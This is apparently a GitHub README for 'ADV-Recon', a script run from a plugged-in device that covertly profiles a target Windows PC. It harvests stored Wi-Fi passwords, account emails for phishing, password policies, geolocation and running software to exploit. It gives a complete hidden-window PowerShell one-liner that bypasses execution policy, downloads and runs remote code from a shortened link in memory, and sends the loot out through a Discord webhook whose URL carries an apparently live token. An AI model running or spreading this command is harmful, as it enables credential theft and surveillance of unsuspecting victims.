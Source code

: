 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# ADV-Recon

A script used to do an advanced level of recon on the target's computer.

Version 2 no longer requires you to host your own version of the script.

Modifying the execution script is the only necessary interaction.

## Description

This program enumerates a target PC to collect as much recon data as possible for future engagements. This includes:

* Hosts PowerShell Version (to know what commands can be run)
* Name associated with their Microsoft account (Or ENV UserName variable if one is not detected)
* Whether they are in the Admin group or not
* The email associated with their Microsoft account (for phishing possibilities)
* Other User accounts on their system (for possible privilege escalation)
* Details on their login settings (Ex: Min/Max password age and length)
* How many days since they have changed their password (Max password age - Days since = Opportunity)
* Their GeoLocation (know their approximate where abouts)
* Nearby Wifi Networks (Possible lateral movement)
* Network Info (Local and Public IP Address; MAC Address; RDP Enabled?)
* WLAN Profiles (List of SSIDs and Passwords stored on their PC)
* Network Interfaces (What are they connecting in and out with)
* System Information (Manufacturer, Model, Serial Number, OS, CPU, RAM, Mainboard BIOS)
* Local Users (Accounts on system with Username, name associated with microsoft account and SID)
* Information on their hard drives (Indicator of Recon Scope)
* COM and Serial Devices (Is there a device connected you can manipulate?)
* Active TCP Connections (Poor mans Port Scanning)
* Processes, Services, Software, and Drivers (What is running on the computer we can exploit?)
* Video Card info (how much vroom vroom?)
* Tree Command (Gain a more accurate assessment of what to exfil or use in Phishing attacks)

## Getting Started

### Dependencies

* Dropbox or Discord
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your discord webhook 

`$db` is the variable that stores your dropbox token 

Fill in either or both of these two methods to exfil your collected data

```
powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1092941991567958098/BQ8FXNRz0IXbbfssRY0l-r-29CDR6VmrBljMZ8XqrL5gj9YIgmiUfnAqIYvIrQoYH_8x';irm tinyurl.com/advrecon1 | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

* 0.2
    * Added additional data queries
    * Optimized output of data

<p align="right">(<a href="#top">back to top</a>)</p>
